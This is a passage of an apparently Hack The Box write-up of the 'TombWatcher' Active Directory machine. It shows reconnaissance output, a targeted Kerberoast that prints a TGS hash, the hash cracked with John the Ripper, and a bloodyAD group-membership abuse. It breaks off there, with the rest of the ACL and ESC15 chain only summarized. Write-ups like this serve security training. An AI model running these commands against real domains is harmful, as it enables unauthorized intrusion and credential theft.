







## Table of Contents

- [Summary](#Summary)
- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Privilege Escalation to Alfred](#Privilege-Escalation-to-Alfred)
    - [Access Control Entry (ACE) WriteSPN Abuse](#Access-Control-Entry-ACE-WriteSPN-Abuse)
        - [Synchronize Time and Date](#Synchronize-Time-and-Date)
        - [Targeted Kerberoast](#Targeted-Kerberoast)
    - [Cracking the Hash](#Cracking-the-Hash)
- [Privilege Escalation to Ansible_Dev$](#Privilege-Escalation-to-Ansible_Dev$)
    - [Access Control Entry (ACE) AddSelf Abuse](#Access-Control-Entry-ACE-AddSelf-Abuse)
    - [Access Control Entry (ACE) ReadGMSAPassword Abuse](#Access-Control-Entry-ACE-ReadGMSAPassword-Abuse)
- [Privilege Escalation to Sam](#Privilege-Escalation-to-Sam)
    - [Access Control Entry (ACE) ForceChangePassword Abuse](#Access-Control-Entry-ACE-ForceChangePassword-Abuse)
- [Foothold](#Foothold)
    - [Privilege Escalation to John](#Privilege-Escalation-to-John)
        - [Access Control Entry (ACE) WriteOwner Abuse](#Access-Control-Entry-ACE-WriteOwner-Abuse)
        - [Shadow Credentials Attack](#Shadow-Credentials-Attack)
- [user.txt](#usertxt)
- [Enumeration (John)](#Enumeration-John)
- [Privilege Escalation to Administrator](#Privilege-Escalation-to-Administrator)
    - [Access Control Entry (ACE) GenericAll Abuse](#Access-Control-Entry-ACE-GenericAll-Abuse)
        - [Active Directory Tombstones](#Active-Directory-Tombstones)
    - [Active Directory Certificate Services (AD CS) Abuse](#Active-Directory-Certificate-Services-AD-CS-Abuse)
        - [ESC15: Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")](#ESC15-Arbitrary-Application-Policy-Injection-in-V1-Templates-CVE-2024-49019-EKUwu)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

This box had a very interesting `Privilege Escalation` chain. It required several times in order to gain `Foothold` on the box and to get access to the `user.txt`. Everything started with the given `credentials` by the box creator to simulate a `Assume Breach Scenario`. With the user `Henry` we started by abusing the `Access Control Entry (ACE)` of `WriteSPN` on the user `Alfred`. As `Alfred` we have the `ACE` of `AddSelf` set onto the group `INFRASTRUCTURE`. Members of this group can read `GMSA Passwords` of `Ansible_Dev$` because of the given `ACE` of `ReadGMSAPassword`. After this step it is possible to abuse the `ACE` of `ForceChangePassword` on user `Sam`. Now as `Sam` the next step is to make use of `WriteOwner` to `Escalate Privileges` one last time to the user `John` in order to login to the box and to grab the `user.txt`.



The user `John` has `GenericAll` over the `Organizational Unit (OU)` called `ADCS`. At this point the `Active Directory Tombstones` come into play. In order to make use of this `ACE` it is necessary to `restore` a user called `cert_admin` through the session of `John` and to give him a fresh `password`. With this user it is possible to figure out that the `Certificate Authority (CA)` is vulnerable to `ESC15` aka `Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")`. This allows to `request` a `certificate` as `Administrator` and then not to `authenticate`, but to drop into an `LDAP Shell` to change the `password` of `Administrator` and then to login using `WinRM` and to grab the `root.txt`.

## Introduction

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: `henry / H3nry_987TGV!`

## Reconnaissance

### Port Scanning

The initial `port scan` using `Nmap` showed us standard open ports for a `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.11.5
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 21:02 CEST
Nmap scan report for 10.129.11.5
Host is up (2.1s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-07 23:05:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-06-07T23:06:39+00:00; +4h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:06:37+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:06:38+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-07T23:06:38+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-07T23:06:05
|_  start_date: N/A
|_clock-skew: mean: 3h59m58s, deviation: 0s, median: 3h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 265.92 seconds
```

### Domain Enumeration

While the `port scan` was running we fired up `enum4linux-ng` to get a quick look at the `Domain` to add the `Domain name` and the name of the `Domain Controller` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.11.5
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.11.5
[*] Username ......... ''
[*] Random Username .. 'wylxwiwl'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on 10.129.11.5    |
 ====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ===================================================
|    Domain Information via LDAP for 10.129.11.5    |
 ===================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: tombwatcher.htb

 ==========================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.11.5    |
 ==========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ========================================
|    SMB Dialect Check on 10.129.11.5    |
 ========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ==========================================================
|    Domain Information via SMB session for 10.129.11.5    |
 ==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: TOMBWATCHER                                                                                                                                                                                                            
DNS domain: tombwatcher.htb                                                                                                                                                                                                                 
FQDN: DC01.tombwatcher.htb                                                                                                                                                                                                                  
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: TOMBWATCHER                                                                                                                                                                                                                 

 ========================================
|    RPC Session Check on 10.129.11.5    |
 ========================================
[*] Check for null session
[-] Could not establish null session: timed out
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ==============================================
|    OS Information via RPC for 10.129.11.5    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 48.71 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.11.5     tombwatcher.htb
10.129.11.5     dc01.tombwatcher.htb
```

### Enumeration of Port 445/TCP

Since the box was designed as `Assume Breach scenario` we had `credentials` to use for the `foothold`. Therefore we started by enumerating port `445/TCP`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ netexec smb 10.129.11.5 -u 'henry' -p 'H3nry_987TGV!' --shares --smb-timeout 10
SMB         10.129.11.5     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.129.11.5     445    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
SMB         10.129.11.5     445    DC01             [*] Enumerated shares
SMB         10.129.11.5     445    DC01             Share           Permissions     Remark
SMB         10.129.11.5     445    DC01             -----           -----------     ------
SMB         10.129.11.5     445    DC01             ADMIN$                          Remote Admin
SMB         10.129.11.5     445    DC01             C$                              Default share
SMB         10.129.11.5     445    DC01             IPC$            READ            Remote IPC
SMB         10.129.11.5     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.11.5     445    DC01             SYSVOL          READ            Logon server share
```

Since `IPC$` was `readable` by our user we went for `RID Brute Force` to have a custom `userlist` just in case.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ netexec smb 10.129.11.5 -u 'henry' -p 'H3nry_987TGV!' --smb-timeout 10 --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}' 
Administrator
Guest
krbtgt
DC01$
Henry
Alfred
sam
john
ansible_dev$
```

Our next quick check was to see if the box offered us a `Certificate Authority (CA)` and indeed we found `tombwatcher-CA-1` which we kept in the back of our heads for later.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ netexec ldap 10.129.11.5 -u 'henry' -p 'H3nry_987TGV!' -M adcs
LDAP        10.129.11.5     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.129.11.5     389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
ADCS        10.129.11.5     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.11.5     389    DC01             Found PKI Enrollment Server: DC01.tombwatcher.htb
ADCS        10.129.11.5     389    DC01             Found CN: tombwatcher-CA-1
```

### Active Directory Enumeration

Our next logical step was to `dump` the `configuration` of the `Active Directory` using `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ netexec ldap 10.129.11.5 -u 'henry' -p 'H3nry_987TGV!' --bloodhound --dns-server 10.129.11.5 -c All
LDAP        10.129.11.5     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.129.11.5     389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
LDAP        10.129.11.5     389    DC01             Resolved collection methods: group, dcom, localadmin, objectprops, rdp, trusts, psremote, session, acl, container
LDAP        10.129.11.5     389    DC01             Done in 02M 00S
LDAP        10.129.11.5     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.11.5_2025-06-07_211458_bloodhound.zip
```

## Privilege Escalation to Alfred

### Access Control Entry (ACE) WriteSPN Abuse

We marked our user `Henry` as `Owned` and checked his `Outbound Object Controls`. There we saw that he had the permission of `WriteSPN` to the user `Alfred`.



#### Synchronize Time and Date

To proceed with the `privilege escalation` we needed to `syncrhonize` our `date and time` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
[sudo] password for kali: 
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.11.5
```

#### Targeted Kerberoast

Then we went for `Targeted Kerberoast` using the `credentials` of `Henry` to get the `Hash` of `Alfred`.

- [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/targetedKerberoast]
└─$ python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$699a94634a93c188784571516e7da48b$54c4f75fb6b3d972e182ae5cbb4f3ee9cc7ba93ae981bfdfd5a5f5edb0d623fd3cc87d024da54a8f2152229005285875cba8c23748e7e67e83112e0b94515a3ea7afe83e50b908aec11de5b90ebca66f84d72cc59e3ec6d6b446823563e95120a0cdaa2a21673b8752373e0aae5f2eec0d57920f360631f52d77021981a3895675c85ba74f8c9f47d049d5647aa6abadc7918bda5b798712c840d84c0355976952399a067dbefa79b549da3eb290d42fe4e9d0aa0d4ee6b95c6c3492d14254befe4a9e51eed17628ca9f77ea951d052078a3828b2821c973ac2c8a6944289e81682a6c91085f5a8cad3a59fdd48c4d47cdbb950cb435a1768921491e40197390748175421dba7fda8472da22341ea4e72cecddc1a590b8bfa48e27938c2a5dd38002287c3667df277cec6f67d5d86111978691f63cb331e3cc8b117425a538e1521efdc84d8b6361e1beb198404099e8d056ae9e5489acfbabef63739e5a4600fc4abf23aa9bf48403fdf3d555608ef83f5794aa3f66bae6bd0d920fb1bbcf9fb10987d32f5b15bac958855816b054f96001437806dc53f74002c639658ed1d50b47afeb2e67766bad957c4861b0fa5f3e2f6523216221c3391ed15623b2fcb544c00ee54f2d574255e9065bc6223243f0278453e0b5c5f9592a4e7f1b826d2c9a865041dd8cdb68d8129896699d22631b75e6de3b1a13e81ead0e1a518aaba52de482e3077f08329d9f451c2bad962c5a44b59970def340a143ea7cf33296c488fa443909ce9126a24a977755f6e5f207ff7381a848a5181579eb68deae5f15be62d5a82e2682747fd8b1b865fef55040247b73dbca07d7d67af708350b8eba5b4863051bab3e9cd8e98e31a050a59cdd04301f4a5c10418b2b04f7ce59d20309e0c61b6f62454ffc37b0c64886917c7d6d3ea5e74b8c73a4caea5be22e539505d91a58643bf5fcce96ec55b44a84e3b0f6db32658277bd0a481ba510c72e11864055cbc65fbaa528ec67661c40c924f6b60abc348e186ae9637dc2d390a3a91fa3feea8db108e74df610b74d371e136a993a590858949dc9f163128a7c12f1fc52812d3ea417dad5892cb84287a84892e62dd38c8addac0da80586ca61fa7e12d35c0d8acda47706bfab24ea63b08874b04876f2f60110386f810f827dfb8ca2990adc4bd9c8da23f5608a3ab8a1ea86589ed43e3783afc4d99b409723144057eaa8f569f053ae625471419b869871b253f430cac526b99cd3f561b3be37f5e08e0b1d8719dbc0367518c5eb1bd56c3b7bc07ce08ff164e02e944b81c8402ffbba43c3baaf01f002e9e4432b0304449c23290e3de2e127de12140fec4b4d850e55ed67999675284e4d5173d84086ad33bc0403006b8c25397a67c37b8cd91542bd374fcc967a0e191cddb88566b55d5026d93e196b760210537a8ab2dffca376fc0df47b463263d5d2b8612f97aef1974a8f9e87
[VERBOSE] SPN removed successfully for (Alfred)
```

### Cracking the Hash

We put the `Hash` into a file and `cracked` it within seconds using `John The Ripper`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ cat alfred.hash 
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$699a94634a93c188784571516e7da48b$54c4f75fb6b3d972e182ae5cbb4f3ee9cc7ba93ae981bfdfd5a5f5edb0d623fd3cc87d024da54a8f2152229005285875cba8c23748e7e67e83112e0b94515a3ea7afe83e50b908aec11de5b90ebca66f84d72cc59e3ec6d6b446823563e95120a0cdaa2a21673b8752373e0aae5f2eec0d57920f360631f52d77021981a3895675c85ba74f8c9f47d049d5647aa6abadc7918bda5b798712c840d84c0355976952399a067dbefa79b549da3eb290d42fe4e9d0aa0d4ee6b95c6c3492d14254befe4a9e51eed17628ca9f77ea951d052078a3828b2821c973ac2c8a6944289e81682a6c91085f5a8cad3a59fdd48c4d47cdbb950cb435a1768921491e40197390748175421dba7fda8472da22341ea4e72cecddc1a590b8bfa48e27938c2a5dd38002287c3667df277cec6f67d5d86111978691f63cb331e3cc8b117425a538e1521efdc84d8b6361e1beb198404099e8d056ae9e5489acfbabef63739e5a4600fc4abf23aa9bf48403fdf3d555608ef83f5794aa3f66bae6bd0d920fb1bbcf9fb10987d32f5b15bac958855816b054f96001437806dc53f74002c639658ed1d50b47afeb2e67766bad957c4861b0fa5f3e2f6523216221c3391ed15623b2fcb544c00ee54f2d574255e9065bc6223243f0278453e0b5c5f9592a4e7f1b826d2c9a865041dd8cdb68d8129896699d22631b75e6de3b1a13e81ead0e1a518aaba52de482e3077f08329d9f451c2bad962c5a44b59970def340a143ea7cf33296c488fa443909ce9126a24a977755f6e5f207ff7381a848a5181579eb68deae5f15be62d5a82e2682747fd8b1b865fef55040247b73dbca07d7d67af708350b8eba5b4863051bab3e9cd8e98e31a050a59cdd04301f4a5c10418b2b04f7ce59d20309e0c61b6f62454ffc37b0c64886917c7d6d3ea5e74b8c73a4caea5be22e539505d91a58643bf5fcce96ec55b44a84e3b0f6db32658277bd0a481ba510c72e11864055cbc65fbaa528ec67661c40c924f6b60abc348e186ae9637dc2d390a3a91fa3feea8db108e74df610b74d371e136a993a590858949dc9f163128a7c12f1fc52812d3ea417dad5892cb84287a84892e62dd38c8addac0da80586ca61fa7e12d35c0d8acda47706bfab24ea63b08874b04876f2f60110386f810f827dfb8ca2990adc4bd9c8da23f5608a3ab8a1ea86589ed43e3783afc4d99b409723144057eaa8f569f053ae625471419b869871b253f430cac526b99cd3f561b3be37f5e08e0b1d8719dbc0367518c5eb1bd56c3b7bc07ce08ff164e02e944b81c8402ffbba43c3baaf01f002e9e4432b0304449c23290e3de2e127de12140fec4b4d850e55ed67999675284e4d5173d84086ad33bc0403006b8c25397a67c37b8cd91542bd374fcc967a0e191cddb88566b55d5026d93e196b760210537a8ab2dffca376fc0df47b463263d5d2b8612f97aef1974a8f9e87
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ sudo john alfred.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
basketball       (?)     
1g 0:00:00:00 DONE (2025-06-08 01:27) 10.00g/s 10240p/s 10240c/s 10240C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password   |
| -------- | ---------- |
| alfred   | basketball |

## Privilege Escalation to Ansible_Dev$

### Access Control Entry (ACE) AddSelf Abuse

Now we went back to `BloodHound` and marked `Alfred` as `Owned` too. He had another set of interesting privileges like `AddSelf` on the `INFRASTRUCTURE` group.



In order to abuse that we used `BloodyAD` to add `Alfred` to the group `INFRASTRUCTURE`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/TombWatcher/files]
└─$ bloodyAD --host 10.129.11.5 -d tombwatcher.htb -u alfred -p 'basketball' add groupMember 'INFRASTRUCTURE' 'alfred' 
